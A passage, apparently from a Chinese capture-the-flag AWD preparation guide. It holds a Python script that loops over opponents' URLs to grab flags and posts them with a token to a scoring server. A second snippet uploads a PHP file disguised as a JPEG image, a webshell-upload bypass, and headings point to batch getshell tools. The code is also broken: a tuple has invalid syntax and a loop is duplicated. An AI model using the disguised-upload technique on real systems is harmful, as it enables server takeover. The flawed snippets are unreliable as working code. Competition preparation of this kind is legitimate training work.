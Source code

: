 ```python
        ###### 这里写getflag代码 ######
        flag_list = []
        for url in url_list:
            try:
                # 这里写拿flag代码
                rev = requests.get(url)
                t = re.findall('(.*)', rev.text, re.S)	# 注意修改正则匹配规则，这里当时是直接返回flag内容，只需要去掉最后的换行符即可
                if t:
                    print('[+] ' + url + '的flag是' + t[0])
                    flag_list.append(t[0].strip())
                
            except Exception as  e:
                print(url)
                print(e)
        ###############################
        
        # 提交flag，模拟curl -d "flag=xxx&token=xxx" 192.168.1.2/api/flag/submit
        for flag in flag_list:
            http = urllib3.PoolManager()
            for flag in flag_list:
                headers = {
                    "Content-type": "application/x-www-form-urlencoded"
                }
                rev = http.request('POST', 'http://192.168.1.2/api/flag/submit',
                                   fields={'flag': flag, 'token': '55dM4d397p'}, headers=headers)
                print(rev)
        time.sleep(180)     # 延时3分钟，可以设置跟flag刷新时间一致
```

#### 4. 批量文件上传

关键代码

```python
file = {
    'pic': ('2.php': open('a.php', 'rb')),
    'Content-Disposition': 'form-data',
    'Content-Type': 'image/jpeg',
}
```

可参考：[https://github.com/admintony/Prepare-for-AWD](https://github.com/admintony/Prepare-for-AWD)

#### 5. 批量getshell

参考：[https://github.com/admintony/Prepare-for-AWD](https://github.com/admintony/Prepare-for-AWD)

#### 6. 通用waf

参考：[https://github.com/admintony/Prepare-for-AWD](https://github.com/admintony/Prepare-for-AWD)

[Watchbird](https://github.com/leohearts/awd-watchbird)

#### 7. 批量上waf
